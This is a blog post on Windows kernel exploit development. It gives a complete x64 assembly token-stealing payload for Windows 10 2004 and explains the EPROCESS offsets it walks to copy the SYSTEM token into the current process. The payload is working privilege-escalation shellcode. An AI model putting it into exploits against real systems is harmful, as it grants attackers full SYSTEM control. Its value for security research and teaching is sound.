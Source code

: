 ```yaml
---
layout: post
title: 'Windows 10 2004 (20H1) Token Stealing Payload and EPROCESS Changes'
date: '2020-06-22T00:00:00.000-00:00'
author: Keramas
tags: [kernel,exploit development]
---
```


I recently re-did my Windows kernel debugging environment with the latest version of Windows 10, 2004 (20H1), and while writing a proof of concept for a driver exploit, I noticed that the token stealing payload I was using was breaking due to a bad dereference when it was crawling the EPROCESS structure. This meant that the offsets had once again changed in this new Windows build. 

## Token Stealing Payload 

The following is the updated token stealing payload that works on Windows 10 2004.

```asm
; Windows 10 x64 2004 Token Stealing Payload

[BITS 64]

_start:
	xor rax, rax
    mov rax, [gs:0x188]		  ; Current thread (_KTHREAD)
	mov rax, [rax + 0xb8]	  ; Current process (_EPROCESS)
	mov r8, rax			      ; Copy current process (_EPROCESS) to r8

__loop:
	mov rax, [rax + 0x448] 	  ; ActiveProcessLinks
	sub rax, 0x448		   	  ; Go back to current process (_EPROCESS)
	mov rcx, [rax + 0x440] 	  ; UniqueProcessId (PID)
	cmp rcx, 4 			      ; Compare PID to SYSTEM PID (0x4)
	jnz __loop			      ; Loop until SYSTEM PID is found

	mov r9, [rax + 0x4b8]	  ; SYSTEM token is @ offset _EPROCESS + 0x4b8
	mov [r8 + 0x4b8], r9	  ; Copy SYSTEM token to current process
```

For those who are unfamiliar with how the above payload works to grant system-level privilges, lets walk through the assembly a bit while explaining about the EPROCESS structure.

As the name implies, this payload aims to escalate privileges when it runs in ring 0 by grabbing a system-level token from the System process (PID of 4), and then replacing the current process' token with it. To accomplish this, it crawls several structures in order to reach the token in the System process.

First, Windows stores the location of the KTHREAD structure in the `gs` register at offset `0x188` (`[gs:0x188]`), and at offset 0xb8 of that structure, there is a pointer to the EPROCESS structure of the current process. 

The EPROCESS structure contains various process-related attributes and pointers to other structures. For the token stealing payload, several offsets will need to be gathered:

- Offset to ActiveProcessLinks
- Offset to the UniqueProcessId (the PID of the process)
- Offset to token associated with the process

From WinDBG, the EPROCESS structure can be explored the with the following command:
```
dt nt!_EPROCESS <address of process>
```

<img src = "/assets/images/EPROCESS.png">

The address used in the image is the address of the System process. The `UniqueProcessId` is located at offset `0x440`, and as the value shows, it is `0x4`, which is always the PID of the System process. Additionally, `ActiveProcessLinks` can be found at offset `0x448`. This points to the `LIST_ENTRY` structure which is a doubly-linked list containing EPROCESS nodes. This list is then iterated over and the PID is checked to see whether the value is 0x4 or not. Once it is found, the token of that process will be taken, as the System process is running under the context of nt authority\system. 

<img src = "/assets/images/EPROCESS_TOKEN.png">

The token can be found at offset `0x4b8` in the EPROCESS structure. The value present here will then replace the token of the current process in the final instruction of the payload allowing for the escalation of privileges. 

## In Summary / TL;DR

- New offsets within EPROCESS structure for Windows 10 2004
- As it relates to ring 0 token stealing payloads:
  - UniqueProcessId is now at 0x440
  - ActiveProcessLinks is now at 0x448
  - Token is now at 0x4b8
- Update payloads accordingly when running on the latest version of Windows 10